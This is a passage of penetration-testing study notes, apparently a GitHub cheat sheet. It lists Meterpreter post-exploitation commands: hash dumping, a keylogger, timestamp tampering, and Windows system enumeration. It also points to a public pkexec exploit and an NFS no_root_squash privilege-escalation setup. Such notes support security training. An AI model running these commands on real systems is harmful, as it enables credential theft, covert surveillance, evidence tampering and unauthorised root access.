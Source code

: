 - Dumping hashes in meterpreter
  - `hashdump` //or try the following
  - `use post/windows/gather/smart_hashdump`

#### 2.2 Post exploitation using Meterpreter

- Useful commands
  - `sysinfo`
  - `getuid`
  - `ifconfig`
  - `pwd` //(mostly downloads folder)
  - `ls`
  - `cat`
  - `cd`
  - `keyscan_start` //keylogger
  - `keyscan-dump`
  - `idletime`
- To modify the timestamp MACE (modified, accessed,created,entry) attributes
  - `timestomp secret.ext -m "2/11/2022 8:10:03"`
- To view timestamp entries
  - timestomp secret.ext -v
    - `-a` accessed
    - `-c` created
    - `-e` entry modified
- Finding files in meterpreter
  - `search -f flag*.txt` (in meterpreter)
- Hidden files in shell, First get the shell, then use the following command
  - dir /a:h
- List all running services in shell
  - `sc querytex type=service state=all`
- Other shell commands
  - `netsh firewall show state` //firewall state
  - `netsh firewall show config`
  - `wmic cpu get`
  - `wmic /node:"" product get name,version,vendor`
  - `wmic useraccount get name,sid`
  - `wmic os where Primary='TRUE' reboot` //restarts system
 
#### 2.3 Linux privilige esc with pkexec
Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. It provides an organized way for non-privileged processes to communicate with privileged processes.

- Download and run the script
- [GitHub - berdav/CVE-2021-4034: CVE-2021-4034 1day](https://github.com/berdav/CVE-2021-4034)

#### 2.4 Linux priv esc with NFS misconfiguration

[Linux Privilege Escalation using Misconfigured NFS - Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/)

- Configure NFS in Victim
  - `sudo apt install nfs-kernel-server`
- Open /etc/exports file. This file contains the list of shares you want to share in the network. Add the following entry
  `- /home    *(rw,no_root_squash)`
> Home directory is shared and root user can perform read/write
- Restart the server
  - `sudo /etc/init.d/nfs-kernel-server restart`
- If we run the nmap scan now, port 2049 will appear as open.
<img width="553" height="221" alt="image" src="https://github.com/user-attachments/assets/68a68c0a-5af0-4e8a-88f3-2328243b7954" />
